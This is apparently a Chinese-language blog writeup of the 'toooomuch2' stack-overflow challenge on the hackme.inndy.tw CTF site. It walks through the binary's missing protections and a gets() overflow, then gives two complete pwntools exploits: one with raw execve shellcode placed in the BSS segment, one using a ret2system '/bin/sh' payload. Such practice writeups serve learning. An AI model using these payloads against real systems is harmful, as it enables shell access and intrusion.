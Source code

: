 ```yaml
---
title: hackme.inndy.tw toooomuch2 writeup
date: 2018-08-16 09:03:27
tags:
- CTF
- writeup
---
```

description: hackme.inndy.tw toooomuch2 writeup 思路分析。

## 0x00 介绍
这一题很简单的栈溢出PWN题。作为入门选手，做的过程也有点小波折。  
题目地址[https://hackme.inndy.tw/](https://hackme.inndy.tw/)，有时需要FQ。
检查防护
```
[*] '/home/lin/wdoc/program-learn/ctf_learn/hackme.inndy.tw/pwn/tooomuch2/toooomuch'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
什么防护都没有。
拖到IDA里看下
<!--more-->
```
int toooomuch()
{
  int result; // eax@2
  char s; // [sp+0h] [bp-18h]@1

  printf("Give me your passcode: ");
  gets(&s);
  strcpy(passcode, &s);
  if ( check_passcode() )
    result = play_a_game();
  else
    result = puts("You are not allowed here!");
  return result;
}
```
这个是漏洞函数，可以看出漏洞输入点在gets(&s)函数调用。gets用来读入一个字符串，没有限制输入长度。s是位于bp-18h的位置，bp后面是之前bp的位置，通过看反汇编代码，可以看到有一个设置临时栈的动作。
```
push ebp
mov ebp, esp
```
栈如下：  
![img](images/wp1-1.png)  
当我们在输入时给s 018+8个a时，就能覆盖掉toooomuch函数的返回地址，此时会出现异常,core dump。
# 0x01 利用思路
没有防护+溢出。这里的利用方法可能有很多种，网上看到是将shellcode放到bss段，然后利用溢出，中转到bss段去执行shellcode。
```
from pwn import *

p = process('./toooomuch')
elf = ELF('./toooomuch')


shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"

gets_addr = p32(elf.symbols['gets'])
bss_addr = p32(elf.bss())
payload = fit({0x18  + 0x4:[gets_addr, bss_addr, bss_addr]})
p.sendlineafter('your passcode: ', payload)
p.sendline(shellcode)
p.interactive()
```
执行流程是：
1. tooomuch返回到gets上，将gets的返回地址设置为bss_addr，因为没有限制NX，所以BSS段也是可执行的
2. 然后在gets执行时，将shellcode输入，此时shellcode就位于BSS段起始位置。
3. 之后gets返回，执行shellcode。
出题人的提示是,也是用shellcode。
```
nc hackme.inndy.tw 7702
Get a shell, please.
Tips: Buffer overflow, 0x8048560, shellcode
```

我自己的思路是利用代码中已经加载的system函数，调用它来获取shell。system需要一个输入/bin/sh字符串。通过gets时输入，整个利用exp如下
```
from pwn import *

p = process('./toooomuch')
elf = ELF('./toooomuch')


system = p32(elf.symbols['system'])
passcode = p32(elf.symbols['passcode'])
binsh = '/bin/sh &&'
payload = binsh + (0x18 + 4- len(binsh) ) * 'a' + system + passcode + passcode
p.sendlineafter('your passcode: ', payload)
p.interactive()
```
之所以在/bin/sh后加了&&，是为了截断输入。否则system会把后面的输入当成是/bin/sh的参数，当成了一个命令调用。整个流程比shellcode要简单
1. 拼接payload, /bin/sh && 加上一些填充字符'a', 后面是调用地址 + 返回地址 + 参数地址。这里利用了代码中将输入复制到了passcode变量，所以使用passcode作为输入参数。
2. 输入payload
3. 返回到system，传入参数是passcode。
4. get shell

## 0x02 总结
1. 一开按照自己的思路填充栈时，没有考虑到设置临时栈时push ebp的动作，返回地址没有正确覆盖，一直没有成功，后来通过gdb调试才意识到。
2. binsh的命令截断有很多姿势。/bin/sh;， 加分号也可以。
